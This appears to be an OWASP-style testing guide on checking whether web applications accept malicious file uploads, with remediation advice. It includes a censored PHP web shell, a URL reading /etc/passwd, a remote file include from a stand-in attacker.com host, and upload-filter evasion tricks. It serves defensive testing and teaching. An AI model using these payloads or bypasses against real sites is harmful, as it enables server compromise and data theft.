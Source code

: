# Test Upload of Malicious Files

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

- Try to upload the malicious file to the application/system and verify that it is correctly rejected.

- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.

- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: new file, import, upload, getFileName, Download, getOutputString
- C/C++: open, fopen
- PHP: move_uploaded_file(),Readfile, file_put_contents(),file(),parse_ini_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

- In IIS6 vulnerability, if the file name is file.asp;file.jpg, the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original file name is test.jpg, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as '..\\..\\..\\..\\hacker.php' If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the [ZIP bomb](https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb) file that may cause application denial of service.

- new File, file, OutputSteam, upload, import, file_put_contents, open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information (OTG-CONFIG-003)](https://www.owasp.org/index.php/Test_File_Extensions_Handling_for_Sensitive_Information_(OTG-CONFIG-003))

[Test Upload of Unexpected File Types (OTG-BUSLOGIC-008)](https://www.owasp.org/index.php/Test_Upload_of_Unexpected_File_Types_(OTG-BUSLOGIC-008))

## Tools

- Metasploit's payload generation functionality

- Intercepting proxy

## References

[OWASP - Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

[Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)

[Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)

[8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)

[Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)

[How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

[Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)

[Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
